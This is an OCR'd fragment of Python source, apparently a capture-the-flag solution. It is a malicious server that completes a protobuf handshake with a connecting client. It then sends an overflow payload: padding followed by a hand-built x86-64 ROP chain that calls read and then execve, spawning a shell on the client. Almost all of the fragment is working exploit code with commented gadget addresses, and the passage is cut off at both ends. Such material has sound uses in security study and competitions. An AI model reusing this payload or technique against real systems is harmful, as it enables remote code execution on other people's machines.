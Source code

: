 ```python
    message.ParseFromString(data)
    print(f"Received data: {message}")
    return 1

def send(client_socket,magic,seq,opcode,cont):
    send = odd_pb2.Message()
    send.magic = magic
    send.seq = seq
    send.opcode = opcode
    send.cont = cont
    send_data = send.SerializeToString()
    client_socket.sendall(send_data)

def start_server(host, port):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server_socket:
        server_socket.bind((host, port))
        server_socket.listen()
        print(f"Server started, listening on {host}:{port}")
        
        while(True):
            client_socket, client_address = server_socket.accept()
            print(f"Connection from {client_address}")
            with client_socket:
                recv(client_socket)
                send(client_socket,875704370,0x13370001,0x0,b'helloOk')
                recv(client_socket)
                send(client_socket,875704370,0x13370003,0x1,b'sessionOk')
                recv(client_socket)
                syscall = 0x65b1C0
                rax = 0x54688a
                rdi = 0x4146a4
                rsi = 0x59a4dc
                rdx_rbx = 0x6615aa

                payload = b'gggggggg'*0x10a
                payload +=b'8a68540000000000' # rax = 0
                payload +=b'0000000000000000' 
                payload +=b'a446410000000000' # rdi = 3
                payload +=b'0000000000000000' 
                payload +=b'dba4590000000000' # rsi = 0x763128
                payload +=b'2831760000000000'
                payload +=b'0000000000000000'
                payload +=b'ab15660000000000' # rdx = 0x100
                payload +=b'0010000000000000'
                payload +=b'0000000000000000'
                payload +=b'c0b1650000000000' # syscall_ret

                payload +=b'8a68540000000000' # rax = 0x3b
                payload +=b'3b00000000000000' 
                payload +=b'a446410000000000' # rdi = 0x763128
                payload +=b'2831760000000000'
                payload +=b'dba4590000000000' # rsi = 0
                payload +=b'0000000000000000'
                payload +=b'0000000000000000'
                payload +=b'ab15660000000000' # rdx = 0
                payload +=b'0000000000000000'
                payload +=b'0000000000000000'
                payload +=b'c0b1650000000000' # syscall_ret

                send(client_socket,875704370,0x13370005,0x2,payload)
                recv(client_socket)

if __name__ == "__main__":
```